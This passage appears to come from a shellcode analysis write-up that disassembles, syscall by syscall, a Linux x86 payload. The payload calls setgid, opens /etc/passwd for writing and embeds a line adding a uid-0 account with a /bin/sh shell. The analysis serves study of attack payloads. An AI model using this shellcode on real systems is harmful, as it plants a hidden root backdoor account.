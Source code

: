 ```
00000025  93                xchg eax,ebx
00000026  E828000000        call 0x53
0000002B  6D                insd
0000002C  657461            gs jz 0x90
0000002F  7370              jnc 0xa1
00000031  6C                insb
00000032  6F                outsd
00000033  69743A417A2F6449  imul esi,[edx+edi+0x41],dword 0x49642f7a
0000003B  736A              jnc 0xa7
0000003D  3470              xor al,0x70
0000003F  3449              xor al,0x49
00000041  52                push edx
00000042  633A              arpl [edx],di
00000044  303A              xor [edx],bh
00000046  303A              xor [edx],bh
00000048  3A2F              cmp ch,[edi]
0000004A  3A2F              cmp ch,[edi]
0000004C  62696E            bound ebp,[ecx+0x6e]
0000004F  2F                das
00000050  7368              jnc 0xba
00000052  0A598B            or bl,[ecx-0x75]
00000055  51                push ecx
00000056  FC                cld
00000057  6A04              push byte +0x4
00000059  58                pop eax
0000005A  CD80              int 0x80
0000005C  6A01              push byte +0x1
0000005E  58                pop eax
0000005F  CD80              int 0x80
```
Following a similar protocol to previous, we'll break each section down by syscall.

The first syscall is for `setgid()` (0x46)
```
00000000  31C9              xor ecx,ecx 		; zero out ecx
00000002  89CB              mov ebx,ecx 		; zero out ebx
00000004  6A46              push byte +0x46 	; push 0x46 onto the stack
00000006  58                pop eax 			; pop it into eax
00000007  CD80              int 0x80 			; call setgid
```
After setgid, we see the following:
```
00000009  6A05              push byte +0x5 			; push 0x5 onto the stack
0000000B  58                pop eax 				; pop that value into eax for open() syscall
0000000C  31C9              xor ecx,ecx 			; zero out ecx
0000000E  51                push ecx 				; push a zero onto the stack
0000000F  6873737764        push dword 0x64777373 	; 
00000014  682F2F7061        push dword 0x61702f2f 	;
00000019  682F657463        push dword 0x6374652f 	; push /etc//passwd onto the stack
0000001E  89E3              mov ebx,esp 			; move the pointer to /etc//passwd into ebx
00000020  41                inc ecx 				; increase ecx to 0x1
00000021  B504              mov ch,0x4 				; move 0x4 into the upper bit of the lowest ECX register, creating 0x401 (write and O_NOCTTY flag)
00000023  CD80              int 0x80 				; call open()
```
